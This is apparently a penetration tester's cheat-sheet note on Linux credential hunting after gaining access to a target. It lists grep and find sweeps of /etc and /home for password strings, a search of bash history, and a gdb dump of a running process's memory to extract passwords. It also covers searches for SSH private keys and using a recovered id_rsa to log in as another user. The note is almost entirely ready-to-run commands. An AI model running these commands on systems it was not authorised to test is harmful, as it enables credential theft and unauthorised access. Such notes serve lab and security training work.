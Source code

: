 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Grep & Find
```bash - target
grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /etc

```bash - target
grep --color=auto -rnw '/home' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /home

Using Find:
```bash - target
find /etc -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /etc

```bash - target
find /home -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /home

Locate in file names:
```bash - target
locate password | more
```

grep in bash history:
```bash - target
cat /home/user/.bash_history | grep -i "password"
```

#### Extracting passwords from memory (Privilege Escalation Techniques)
```bash - target
ps -ef
```

```bash - target
ps -ef | grep $SERVICE_NAME
```

```bash - target
gdb -p $PID
```

```bash - target
info proc mappings
```

```bash - target
dump memory $OUTPUT_FILE $START_ADDRESS $STOP_ADDRESS
```

```bash - target
strings /<OUTPUT_FILE> | grep passw
```

#### SSH Key Hunting
```bash - target
find / -iname authorized_keys 2> /dev/null
```

```bash - target
find / -iname id_rsa 2> /dev/null
```

>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjE...4WBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

Save found key into KALI file

```bash - kali
mousepad id_rsa
```

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


